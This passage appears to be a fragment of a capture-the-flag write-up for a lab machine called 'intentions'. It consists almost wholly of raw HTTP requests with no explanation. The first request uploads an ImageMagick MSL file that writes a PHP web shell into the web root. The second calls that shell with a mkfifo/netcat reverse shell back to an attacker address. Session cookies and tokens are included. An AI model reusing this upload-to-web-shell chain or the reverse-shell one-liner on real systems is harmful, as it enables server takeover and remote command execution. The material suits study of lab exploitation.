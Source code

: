 ```
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTI5LjE1Ny44Mi9hcGkvdjIvYXV0aC9sb2dpbiIsImlhdCI6MTY4ODM0NTc1NSwiZXhwIjoxNjg4MzY3MzU1LCJuYmYiOjE2ODgzNDU3NTUsImp0aSI6IkttT1F5Y1N5WlM5VkxRT2IiLCJzdWIiOiIyIiwicHJ2IjoiMjNiZDVjODk0OWY2MDBhZGIzOWU3MDFjNDAwODcyZGI3YTU5NzZmNyJ9.Ve86AQz0muqKzK1WOLnoy0F0ZzsiVPjsZwb0t6HO2kc; XSRF-TOKEN=eyJpdiI6IjNLRElDME9SZTRWNGMySktsaUp1N0E9PSIsInZhbHVlIjoid1JNNEsyR3U1QW8rNkpqN1JabkVpc1hQVmJGVDY1cGxtUG1zMUZDdVV5SFRJUGhKak5mSGxYZlJHbHlNUmZLcmo1YnlIZjEyYUFZSlR2K2V5a3BIMEl2TndaRWZQL0VJdWJtUml0YmxaUXZVTGI1YSt3TlZvUGw0NW9ObWtEK3ciLCJtYWMiOiI4NzFmYWJjZjZkYzU4MGQxMmUwOTQ4MTI4N2E0MDg5N2M3YWE3NDc1NmRhMzgzZGRlYTI1ZjU5MTYxYmNmZTgxIiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6IjJoeDlYb3M2d3AzY0pVU2Z0Rzd0UGc9PSIsInZhbHVlIjoic1Y4Qk1NeVhuRXJ0dFU3ck9DelF4UEhhODhHbzlnVENiUUUxMHM1eXgrMlRUTHRnVUh5Y3pVMkNxWTVXdFkyNHR3Uk9ZSzFyL3djQ2x0M1ZJcWt4N3JHNzUyaW4vTCtGUHBEVVQ5bmc3bko5SFdBUGMyMkhYYlpyK2tWd1V4Q0oiLCJtYWMiOiJiZjliZGQwNGVmMWQxZTZlMjA4YWJhOGI2MzcyZDhkOTAxMTdhZTEzNWY5NDBhN2I5NmMyNTY4MWI2YTA3MTlkIiwidGFnIjoiIn0%3D


--ABC
Content-Disposition: form-data; name="swarm"; filename="swarm.msl"
Content-Type: text/plain

<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="caption:&lt;?php system($_REQUEST['a']); ?&gt;" />
 <write filename="info:/var/www/html/intentions/storage/app/public/swarm.php" />
</image>
--ABC--
```

### Reverse Shell - www-data
```
GET /storage/swarm.php?a=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.104+9001+>/tmp/f HTTP/1.1

Host: 10.129.170.72

User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

DNT: 1

Connection: close

Cookie: XSRF-TOKEN=eyJpdiI6IlA0STl2MkxxRWlJenNYcmhwRTBLR2c9PSIsInZhbHVlIjoibWMraC92NmFCaVRNSWN0Ly9kNmUxL3hLMDVsUzhlbWtLWGhWVjNyYlZRdm1EUDVLakoxTURodWZNa1FqNkpocE93ZHI4YnA4UlZYTzVQYVE0czlqYmpJd1BJeGk2RFc0UjBZMk9CR1UrdXJRMnR6UzJPdVh6bUtKWGd2WlpGbmQiLCJtYWMiOiJkZWI5YjMyODg4YmFhN2RhYjc3NjIzMTk4NDk4MGNiMGM1MzU4ZGM5NGU4ZjEzM2VmNGYyNDUzODU4Yjc3MTE0IiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6Ii9zRkxUSnl3am10dk5ZZFdNR0Q0NWc9PSIsInZhbHVlIjoiT2FHV3VKMTY5VWIwcjRsTzk3TlduSnhvdENZSzNPZHg2RkZPS2xKSFQyRVNIVTFiZGtpWVQzbUdtOVpTZUx3aE5CK1Bvc3I4NW92eTFFMytTdmZsalpuWktvZkhjR3JIWDFJMjA5clBZTGRNVlJZVE9mWERNenlBeHNYUVRaWHYiLCJtYWMiOiI4NmQwMTZjZTMzY2U3YTQzMWU5NjA2ZDIxZTAzOWMxMWNlNTY3OWNlYmVlOTQ3OGMyNDljNjQwYzkxMjllYzExIiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTI5LjE3MC43Mi9hcGkvdjIvYXV0aC9sb2dpbiIsImlhdCI6MTY4ODQxNDE3MiwiZXhwIjoxNjg4NDM1NzcyLCJuYmYiOjE2ODg0MTQxNzIsImp0aSI6InpGWm53cUk5cVE5TDBySEgiLCJzdWIiOiIyIiwicHJ2IjoiMjNiZDVjODk0OWY2MDBhZGIzOWU3MDFjNDAwODcyZGI3YTU5NzZmNyJ9.eiQigx7jrSfMX3CWHKRbq93mEN3M8dSVNs4aQTZCKCU

Upgrade-Insecure-Requests: 1
```
